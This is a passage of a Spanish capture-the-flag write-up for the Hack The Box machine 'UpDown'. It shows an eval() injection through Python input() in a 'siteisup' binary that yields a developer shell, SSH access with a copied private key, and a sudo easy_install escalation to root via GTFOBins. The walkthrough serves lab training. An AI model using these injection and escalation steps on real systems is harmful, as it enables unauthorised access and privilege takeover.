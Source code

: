 Se encarga de tramitar una petición por GET, que en función del codigo de estado de la respuesta, devuelve si el sitio web está operativo o no.

Esta llamando a la función input, la cual hace una llamada a eval() y lo hace vulnerable a una ejecución de comandos

En [este Post](https://medium.com/@GallegoDor/python-exploitation-1-input-ac10d3f4491f) está explicado más detalladamente

Por tanto, si ejecuto una bash como developer, migro de usuario a uno con mayores privilegios

```null
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('bash -p')
developer@updown:/home/developer/dev$ 
```

Si trato de ver la flag, me pone que no tengo acceso

```null
developer@updown:/home/developer$ cat user.txt 
cat: user.txt: Permission denied
```

Esto se debe a que como grupo asignado sigo como www-data

```null
developer@updown:/home/developer$ id
uid=1002(developer) gid=33(www-data) groups=33(www-data)
```

Para remediarlo, me transifero la id_rsa, le asigno el privilegio 600 y me conecto por SSH

```null
ssh -i id_rsa developer@10.10.11.177
developer@updown:~$ id
uid=1002(developer) gid=1002(developer) groups=1002(developer)
```

Y puedo visualizar la primera flag

# Escalada

Puedo ejecutar un binario como root sin proporcionar contraseña

```null
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```

En [GTFObins](https://gtfobins.github.io/gtfobins/easy_install/#sudo) está contemplado easy_intall, por lo que siguiendo la guía obtengo una shell con máximos privilegios
